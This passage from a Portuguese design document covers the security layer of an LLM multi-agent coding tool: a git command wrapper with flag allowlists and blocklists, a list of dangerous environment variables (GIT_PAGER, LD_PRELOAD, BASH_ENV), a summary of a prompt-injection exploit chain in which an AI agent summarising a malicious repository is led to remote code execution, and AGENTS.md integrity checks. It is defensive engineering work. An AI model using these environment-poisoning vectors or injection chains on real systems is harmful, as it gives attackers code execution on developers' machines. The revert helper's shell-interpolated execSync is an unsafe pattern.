    forbiddenFlags: new Set(['--no-index', '--output', '--ext-diff', '--no-ext-diff', '--textconv', '--word-diff-regex']),
    allowPathArgs: true, allowRefArgs: true, maxArgs: 6,
  },
  'show': {
    allowedFlags: new Set(['--stat', '--name-only', '--format']),
    forbiddenFlags: new Set(['--output', '--no-index']),
    allowPathArgs: false, allowRefArgs: true, maxArgs: 3,
  },
  'stash': {
    allowedFlags: new Set(['push', 'pop', 'list', 'show', 'drop', '--include-untracked', '-m', '--message']),
    forbiddenFlags: new Set([]), allowPathArgs: false, allowRefArgs: false, maxArgs: 4,
  },
  'add': {
    allowedFlags: new Set(['-p', '--patch', '--update', '-u']),
    forbiddenFlags: new Set([]), allowPathArgs: true, allowRefArgs: false, maxArgs: 5,
  },
  'commit': {
    allowedFlags: new Set(['-m', '--message', '--allow-empty', '--no-verify']),
    forbiddenFlags: new Set(['--template', '--cleanup=scissors']),
    allowPathArgs: false, allowRefArgs: false, maxArgs: 3,
  },
  'checkout': {
    allowedFlags: new Set(['-b', '--detach', '--orphan']),
    forbiddenFlags: new Set([]), allowPathArgs: false, allowRefArgs: true, maxArgs: 3,
  },
  'rev-parse': {
    allowedFlags: new Set(['--short', '--verify', '--show-toplevel', 'HEAD']),
    forbiddenFlags: new Set(['--absolute-git-dir', '--git-dir']),
    allowPathArgs: false, allowRefArgs: true, maxArgs: 2,
  },
  'write-tree': {
    allowedFlags: new Set([]), forbiddenFlags: new Set([]),
    allowPathArgs: false, allowRefArgs: false, maxArgs: 0,
  },
};

// ═══════════════════════════════════════════════════════════
// SEÇÃO 3: SCHEMA ZOD + TIPOS
// ═══════════════════════════════════════════════════════════
const SecureGitSchema = z.object({
  worktreePath: z.string().min(1).max(512),
  subcommand: z.string().refine(
    s => s in GIT_POLICY,
    s => ({ message: `'${s}' not in allowlist. Allowed: ${Object.keys(GIT_POLICY).join(', ')}` })
  ),
  args: z.array(
    z.string().min(0).max(512)
      .refine(s => !s.includes('\0'), 'Null byte not allowed')
      .refine(s => !s.includes('\n') && !s.includes('\r'), 'Newlines not allowed')
  ).max(10),
});

export type SecureGitInput  = z.infer<typeof SecureGitSchema>;
export interface SecureGitOutput { stdout: string; stderr: string; exitCode: number }

// ═══════════════════════════════════════════════════════════
// SEÇÃO 4: A FUNÇÃO PRINCIPAL
// ═══════════════════════════════════════════════════════════
export async function secureGit(input: SecureGitInput): Promise<SecureGitOutput> {
  // Camada 0: Schema Zod
  const parsed = SecureGitSchema.safeParse(input);
  if (!parsed.success) throw new SecurityError(`[INPUT] ${parsed.error.message}`);

  const { worktreePath, subcommand, args } = parsed.data;
  const policy = GIT_POLICY[subcommand]!;

  // Camada 1: Resolução real do worktree (dereference de symlinks)
  const resolvedWorktree = await realpath(worktreePath).catch(() => {
    throw new SecurityError(`[PATH] Cannot resolve worktree: ${worktreePath}`);
  });

  // Camada 2: Validação do limite de argumentos
  if (args.length > policy.maxArgs)
    throw new SecurityError(`[ARGS] Too many args for 'git ${subcommand}': ${args.length} > ${policy.maxArgs}`);

  // Camada 3: Classificação e validação dos argumentos
  const safeFlags: string[] = [], safePathArgs: string[] = [], safeRefArgs: string[] = [];

  for (const arg of args) {
    if (arg.startsWith('-')) {
      await validateFlag(arg, subcommand, policy);
      safeFlags.push(arg);
    } else if (isGitRef(arg)) {
      if (!policy.allowRefArgs) throw new SecurityError(`[REF] Ref args not allowed for 'git ${subcommand}': ${arg}`);
      safeRefArgs.push(arg);
    } else {
      safePathArgs.push(await validateAndResolvePath(arg, resolvedWorktree, subcommand, policy));
    }
  }

  // Camada 4: Sanitização do environment (remove FORBIDDEN_ENV_VARS)
  const sanitizedEnv = buildSanitizedEnv();

  // Camada 5: Execução via execa (shell: false implícito — sem /bin/sh intermediário)
  const finalArgs = ['-C', resolvedWorktree, subcommand, ...safeFlags, ...safeRefArgs, ...safePathArgs];
  const result = await execa('git', finalArgs, { env: sanitizedEnv, timeout: 30_000, reject: false });

  if (result.exitCode !== 0)
    throw new Error(`[GIT] git ${subcommand} failed (exit ${result.exitCode}): ${result.stderr}`);

  return { stdout: result.stdout, stderr: result.stderr, exitCode: result.exitCode };
}

// ─── Funções auxiliares ───────────────────────────────────

async function validateFlag(arg: string, subcommand: string, policy: SubcommandPolicy): Promise<void> {
  const baseFlag = arg.split('=')[0]!;
  if (policy.forbiddenFlags.has(baseFlag) || policy.forbiddenFlags.has(arg))
    throw new SecurityError(`[FLAG] '${arg}' is forbidden for 'git ${subcommand}'. Known attack vector.`);
  if (!policy.allowedFlags.has(baseFlag) && !policy.allowedFlags.has(arg))
    throw new SecurityError(`[FLAG] '${baseFlag}' not in allowlist for 'git ${subcommand}'.`);
  if (arg.includes('=')) {
    const value = arg.split('=').slice(1).join('=');
    if (/exec:|%(trailers.*key)/.test(value))
      throw new SecurityError(`[FLAG] Potentially dangerous format token in '${arg}'`);
  }
}

async function validateAndResolvePath(
  arg: string, resolvedWorktree: string, subcommand: string, policy: SubcommandPolicy
): Promise<string> {
  if (!policy.allowPathArgs) throw new SecurityError(`[PATH] Path args not allowed for 'git ${subcommand}': ${arg}`);
  const resolved = await realpath(path.resolve(resolvedWorktree, arg)).catch(() => {
    throw new SecurityError(`[PATH] Cannot resolve: '${arg}'`);
  });
  const prefix = resolvedWorktree.endsWith(path.sep) ? resolvedWorktree : resolvedWorktree + path.sep;
  if (resolved !== resolvedWorktree && !resolved.startsWith(prefix))
    throw new SecurityError(`[PATH_TRAVERSAL] '${resolved}' is outside worktree '${resolvedWorktree}'`);
  return resolved;
}

function isGitRef(arg: string): boolean {
  return /^[a-zA-Z0-9_\-./~^@{}:]+$/.test(arg) && !arg.includes('../') && !arg.includes('/../') && arg !== '..';
}

function buildSanitizedEnv(): NodeJS.ProcessEnv {
  const env = { ...process.env };
  for (const forbidden of FORBIDDEN_ENV_VARS) { delete env[forbidden]; }
  // Força modo não-interativo (previne abertura de editor/pager)
  env['GIT_TERMINAL_PROMPT'] = '0';
  env['GIT_ASKPASS']         = 'echo'; // Retorna vazio para qualquer prompt de credencial
  env['TERM']                = 'dumb'; // Desabilita features de terminal rico
  return env;
}

class SecurityError extends Error {
  constructor(message: string) { super(message); this.name = 'SecurityError'; }
}
```

---

## 4.4 Environment Poisoning — O Risco Residual Além das Allowlists (v2.3)

> **Fonte:** Pesquisa Técnica Profunda v2.3, Ponto 4 + achado crítico final. Esta é a vulnerabilidade que a pesquisa identificou **além do que o escopo original pedia** e que exige tratamento obrigatório.

### O Problema Fundamental

Controles estáticos como allowlists de comandos seguros **exacerbam este risco** ao validar o que é executado enquanto ignoram o contexto envenenado em que roda — efetivamente agilizando o ataque ao aprovar automaticamente os próprios comandos usados para detonar o payload.

Isso significa: **um wrapper perfeito de allowlist pode ser contornado** se o agente tiver escrito `PAGER=malicious_binary` em um `.env` antes de executar o comando permitido. O `git log` está na allowlist; o binário PAGER não está — mas o git o invoca automaticamente.

Esta attack chain converte comandos benignos aprovados — como `git branch` — em vetores de execução de código arbitrário, explorando shell built-ins como `export`, `typeset` e `declare` para manipular variáveis de ambiente silenciosamente.

### Taxonomia de Variáveis de Ambiente Perigosas para Git

| Variável | Vetor de Ataque | Severidade |
|---|---|---|
| `GIT_EXEC_PATH` | Redireciona onde o git busca subcomandos (RCE completo) | 🔴 CRÍTICO |
| `GIT_PAGER` | Executa pager arbitrário após `git log` (RCE) | 🔴 CRÍTICO |
| `PAGER` | Fallback do git para pager (RCE via `git log`) | 🔴 CRÍTICO |
| `GIT_SSH_COMMAND` | Executa comando SSH arbitrário em push/pull | 🔴 CRÍTICO |
| `GIT_ASKPASS` | Executa programa para obter credenciais | 🟠 ALTO |
| `GIT_EDITOR` | Executa editor arbitrário em commits interativos | 🟠 ALTO |
| `GIT_TRACE` / `GIT_TRACE2` | Pode escrever logs em arquivos arbitrários | 🟡 MÉDIO |
| `GIT_CONFIG_COUNT` | Injeta configurações arbitrárias do git em runtime | 🟠 ALTO |
| `BASH_ENV` | Executado automaticamente em cada subshell (RCE) | 🔴 CRÍTICO |
| `LD_PRELOAD` | Injeta biblioteca dinâmica em qualquer exec (privesc) | 🔴 CRÍTICO |

### Por que a Sanitização é Camada Obrigatória

A análise dos CVE-2025-68143/68144/68145 (mcp-server-git) demonstra que um atacante pode alcanzar RCE completo na máquina do desenvolvedor simplesmente pedindo à IA para resumir um repositório malicioso. O exploit encadeia uma falha de path traversal para contornar allowlists, um comando irrestrito para criar repositórios em locais arbitrários, e **argument injection para executar comandos shell** — tudo com o agente como vetor inconsciente.

A defesa canônica (já implementada no `secureGit` acima):

```typescript
// Aplique ANTES de qualquer exec() de git — sem exceções
const DANGEROUS_ENV_VARS = [
  'GIT_EXEC_PATH', 'GIT_PAGER', 'PAGER', 'GIT_EDITOR',
  'GIT_SSH', 'GIT_SSH_COMMAND', 'GIT_PROXY_COMMAND', 'GIT_ASKPASS',
  'GIT_CONFIG_COUNT', 'GIT_TERMINAL_PROMPT', 'GIT_TRACE', 'GIT_TRACE2',
  'BASH_ENV', 'ENV', 'LD_PRELOAD', 'LD_LIBRARY_PATH',
  'DYLD_LIBRARY_PATH', 'DYLD_INSERT_LIBRARIES', 'IFS', 'CDPATH',
];

const sanitizedEnv = { ...process.env };
for (const envVar of DANGEROUS_ENV_VARS) delete sanitizedEnv[envVar];
// Passar sanitizedEnv a todo child_process.exec/spawn que interaja com git
```

> ⚠️ **Regra Absoluta:** A sanitização de variáveis de ambiente é a **última linha de defesa** quando todas as outras (allowlist de subcomandos, validação de path, HMAC) estão corretas. Removê-la cria uma janela de ataque que nenhum outro controle fecha.

---

## 5. Rollback Pós-Merge

### 5.1 Mecanismo

```typescript
// src/server/GitWorktreeManager.ts — método revert

async revert(mergeEventId: string): Promise<void> {
  // 1. Executa git revert HEAD (não-destrutivo, preserva histórico)
  execSync(`git -C ${this.mainRepoPath} revert HEAD --no-edit`);

  // 2. Atualiza o DB
  await prisma.mergeEvent.update({
    where: { id: mergeEventId },
    data: { revertedAt: new Date() },
  });

  // 3. Emite evento SSE para atualizar a Timeline na UI
  sseTransport.emitDebateEvent(sessionId, {
    id: nextEventId(),
    type: 'MERGE_REVERTED',
    payload: { mergeEventId, revertedAt: new Date().toISOString() },
  });
}
```

### 5.2 Janela de Rollback

- **30 minutos** após merge: botão "↩ Desfazer" visível na Timeline Lateral
- **Após 30 minutos**: botão movido para seção "Histórico de Ações" (sempre acessível)
- **Configurável** via `ROLLBACK_WINDOW_MIN` no `.env`

### 5.3 Conflito no Revert

Se `git revert HEAD` gerar conflito (raro, mas possível em repositórios com commits posteriores):

```bash
# 1. Cancelar o revert em andamento
git revert --abort

# 2. Usar o terminal integrado para resolver manualmente
# 3. Ou iniciar uma nova sessão de debate para "refazer" de forma limpa
```

---

## 6. Gestão de API Keys

### 6.1 Provedor Piloto: Google AI Studio

```bash
# .env (nunca commitar — está no .gitignore)
GEMINI_API_KEY=AIza...

# A key é lida UMA VEZ na inicialização do GeminiProvider
# Nunca é logada, nunca é enviada ao browser, nunca aparece nos eventos SSE
```

### 6.2 LocalKeyVault (para múltiplas keys futuras)

```typescript
// Baseado na v1.0 — AES-CBC 256-bit
// Armazena keys criptografadas em .greenforge/vault.enc
// Desbloqueado por passphrase do usuário na inicialização
// NÃO implementado no MVP (single-user, localhost)
// Previsto para v2.3 (multi-usuário)
```

### 6.3 Estratégia para Ollama (local LLM)

Quando `OLLAMA_ENABLED=true`:
- Sem API key necessária — Ollama roda em `localhost:11434`
- Backend Node.js faz requests diretos (sem CORS, sem PNA policy)
- `ILLMProvider` é trocado para `OllamaProvider` sem alterar lógica dos agentes

---

## 7. Política de CostGuardrail

```typescript
// v2.2 — vuln #9: CostGuardrail com limite por papel
interface CostGuardrailConfig {
  dailyBudgetUsd: number;           // Default: 5.00
  perTaskBudgetTokens: number;      // Default: 50_000 tokens
  extendedBudgetRequiresGate: boolean; // Default: true
  // v2.2: limite por papel — impede Arbitro Pro de consumir 80%+ do budget
  roleBudgetRatio: {
    judge: number;    // Default: 0.20 (20% do perTaskBudgetTokens)
    proposer: number; // Default: 0.50 (50%)
    critic: number;   // Default: 0.30 (30%)
  };
  // v2.2: verifica budget disponível ANTES de iniciar geração pós-Gate 1
  preGenerationBudgetCheck: boolean; // Default: true
}

// Comportamento ao atingir limite por papel:
// judge excede 20% → emite HITL Gate 'ROLE_BUDGET_EXCEEDED' antes de nova chamada Pro
// Comportamento ao atingir limite geral:
// 1. dailyBudget atingido → pausa todas as sessões, notifica usuário via SSE
// 2. perTaskBudget atingido → aborta a task atual, registra no DB
// 3. Pedido de 1M tokens → HITL Gate de custo ("Esta análise custa ~$0.42. Aprovar?")
```

---

## 9. Integridade do AGENTS.md

Para prevenir o envenenamento de prompts (Prompt Injection via Filesystem), o `AgentFactory` monitora a integridade do arquivo `AGENTS.md`.

- **Hashing:** No boot, o servidor calcula o SHA-256 de `AGENTS.md` e registra no `AuditLog`.
- **Hot-Reload Seguro:** O `chokidar` monitora alterações. Qualquer mudança dispara uma re-validação completa.
- **v2.2 — vuln #12:** Além do hash do arquivo inteiro, o hash SHA-256 do **system prompt body** de cada agente core (`proposer`, `critic`, `judge`) é calculado individualmente e comparado entre reloads. Qualquer mudança no body de um agente core gera um alerta `AGENT_INTEGRITY_CHANGED` via SSE e uma entrada no `AuditLog` com os hashes anterior e novo.

```typescript
// v2.2 — vuln #12: audit de integridade por agente core
async function auditAgentIntegrity(agentId: string, systemPrompt: string, previousHash?: string): Promise<void> {
  const newHash = crypto.createHash('sha256').update(systemPrompt).digest('hex');
  await prisma.auditLog.create({
    data: {
      entityType: 'AgentIntegrity', entityId: agentId,
      action: 'RELOAD',
      previousState: previousHash ? JSON.stringify({ promptHash: previousHash }) : null,
      newState: JSON.stringify({ promptHash: newHash }),
      actor: 'system:AgentFactory',
    }
  });
  if (previousHash && previousHash !== newHash) {
    const coreAgents = ['technical_proposer', 'quality_critic', 'debate_judge'];
    if (coreAgents.includes(agentId)) {
      sseTransport.emitSystemAlert('AGENT_INTEGRITY_CHANGED', {
        agentId, previousHash, newHash,
        severity: 'HIGH',
        message: `System prompt do agente core '${agentId}' foi alterado. Verifique o AGENTS.md.`
      });
    }
  }
}
```

- **Audit Trail:** Cada alteração no arquivo gera um diff auditável no banco de dados, registrando o timestamp e o hash anterior/novo.
- **Failsafe:** Se o parse do novo YAML falhar, o servidor mantém os agentes anteriores em memória e emite um alerta `AGENT_FACTORY_RELOAD_FAILED` via SSE.

### Checklist de Imunidade Arquitetural por Perfil (v2.3)

> **Mudança v2.1 → v2.3:** As verificações abaixo são baseadas nos contratos determinísticos do sistema de resiliência v2.3. Cada item é rastreável a um mecanismo implementado e verificável programaticamente. Itens de "boa prática" sem contrato técnico foram removidos.

#### Dev Júnior — Verificações de Corretude de Configuração

- [ ] **`APPROVAL_MODE=manual`** configurado em `.env.local` (nunca commitar `.env`)
- [ ] **`GREENFORGE_GATE_SECRET`** definido como string hex de 256-bit (erro de startup se ausente)
- [ ] **`AUTHORIZED_WORKTREES_ROOT`** aponta para diretório pai dos worktrees (ex: `./worktrees/`)
- [ ] Ao submeter um gate: se receber `WORKTREE_DIVERGED`, **solicitar novo card** — nunca forçar aprovação
- [ ] Ao ver `LoopDiagnosis { isLoop: true }` com `INVARIANT_SIDE_EFFECTS`: injetar nova constraint antes de continuar
- [ ] Confirmar que `db.pragma('journal_mode = WAL')` está ativo: `PRAGMA journal_mode;` → deve retornar `wal`

#### Dev Sênior / Tech Lead — Contratos de Engenharia

- [ ] **Ordem de boot verificada:** `bootReconciler(db)` é a **primeira** chamada pós-abertura do DB, antes de qualquer handler HTTP ou conexão SSE
- [ ] **WAL dir presente:** `.greenforge/wal/` existe e tem permissão de escrita; arquivos `.tmp` residuais indicam crash prévio
- [ ] **`secureGit` como único ponto de saída:** nenhum `child_process.exec` ou `simpleGit()` direto chama git; todos passam pelo wrapper com `sanitizeEnv()`
- [ ] **Validação de `realpath()`:** `AUTHORIZED_WORKTREES_ROOT` resolve para caminho absoluto sem symlinks; testar com `../` no path → `SecurityError: Path traversal`
- [ ] **HMAC no payload:** `PreExecutionGuard.issueCard()` gera `hmac` com `GREENFORGE_GATE_SECRET`; validar que um card com `hmac` adulterado retorna `HMAC_INVALID`
- [ ] **CPGLoopDetector instância por agente:** cada `agentId` tem sua própria instância de `CPGLoopDetector`; instâncias compartilhadas causam detecções incorretas entre agentes
- [ ] **`LOOP_DETECTOR_THRESHOLD`** definido; valor abaixo de `0.85` causa falsos positivos no `CPG_CYCLE`

#### DevOps / SRE — Contratos de Resiliência Operacional

- [ ] **Teste de crash recovery:** `kill -9 <pid>` com checkpoint em fase `GIT_STASH_DONE` → no próximo boot, `bootReconciler` emite `forwardRecovered` para o `txId`; worktree e DB estão sincronizados
- [ ] **Sem arquivos `.tmp` residuais** em `.greenforge/wal/` após boot limpo; se presentes, indicam falha no `writeIntent()` e são removidos automaticamente pelo `cleanOrphanedTempFiles()`
- [ ] **Headers de Cross-Origin-Isolation ativos** em produção: `curl -I <server>` retorna `Cross-Origin-Opener-Policy: same-origin` e `Cross-Origin-Embedder-Policy: require-corp`; sem eles, `SharedArrayBuffer` (CodeMirror 6) falha silenciosamente
- [ ] **`LLMCallLog` monitorado** para anomalias: custo acima de `DAILY_BUDGET_USD` ou latência > 30s indica loop de agente não detectado
- [ ] **GC de `ResourceLease`:** expirados > 24h são removidos via cron; `AUTHORIZED_WORKTREES_ROOT` não acumula worktrees órfãos
- [ ] **`SERVER_PORT` não exposto externamente** sem VPN/Auth; o modelo de segurança v2.3 é explicitamente single-user/localhost
- [ ] **Variáveis de ambiente críticas** — verificação de presença no startup:
  ```
  GREENFORGE_GATE_SECRET     ← obrigatória (PreExecutionGuard HMAC)
  AUTHORIZED_WORKTREES_ROOT  ← obrigatória (path traversal fencing)
  GEMINI_API_KEY             ← obrigatória (LLM calls)
  DAILY_BUDGET_USD           ← recomendada (proteção de custo)
  ```

#### Verificação de Fallback — SharedArrayBuffer Bloqueado pelo Browser

> Quando o browser **não** tem Cross-Origin-Isolation ativo (ex: servidor de desenvolvimento sem os headers), o CodeMirror 6 falha ao inicializar o `ThreadedParser`. A UI deve degradar graciosamente:

- [ ] Editor exibe badge `⚠️ Parser offline — realce de sintaxe desativado` em vez de quebrar
- [ ] Console registra: `[CodeMirror] SharedArrayBuffer unavailable. Parser disabled. Reason: Cross-Origin-Isolation not active.`
- [ ] Edição de código **continua funcionando** sem realce de sintaxe (fallback para modo plaintext)
- [ ] Ao ativar os headers COOP/COEP, F5 no browser restaura o parser sem necessidade de rebuild

